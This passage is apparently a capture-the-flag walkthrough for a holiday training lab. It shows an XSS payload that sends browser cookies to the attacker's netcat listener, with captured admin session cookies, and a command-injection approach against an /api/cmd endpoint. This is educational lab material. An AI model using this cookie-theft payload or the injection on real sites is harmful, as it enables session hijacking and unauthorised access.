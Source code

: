 
Next craft the payload:
```js
<script>new Image().src='http://10.8.14.151:20000/cookie='+document.cookie;</script>
```
Then make setup the server and try to refresh the forum and see if you will recieve your cookie
```console
bibo318@parrot:~$ nc -lvp 20000
listening on [any] 20000 ...
10.8.14.151: inverse host lookup failed: Unknown host
connect to [10.8.14.151] from (UNKNOWN) [10.8.14.151] 48702
GET /cookie=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.14.151:20000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.165.251:3000/home
Connection: keep-alive
```
Yep it is working! so let run the server again and wait for admin to login!!
```console
bibo318@parrot:~$ nc -lvp 20000
listening on [any] 20000 ...
10.10.165.251: inverse host lookup failed: Unknown host
connect to [10.8.14.151] from (UNKNOWN) [10.10.165.251] 37236
GET /cookie=authid=2564799XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1
Host: 10.8.14.151:20000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
GLHF
# Day 19 : Commands
```
Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.
```
READ [this](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit)

## What are the contents of the user.txt file?
We got a hit that we should check http://[your-ip]:3000/api/cmd/. I notice by the url name that it have something to do with ```cmd.exe```. So I start playing around by executing ```http://[your-ip]:3000/api/cmd/id``` and yes we found the vulnerability!! Command Injection. now try the following cmd to find the flag (hint: some where in ```/home```)
1. cat 
2. dir
3. dont forget URL encoding: %20 for space %2F for slash
GLHF
# Day 20 : Cronjob Privilege Escalation 
```
You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.
```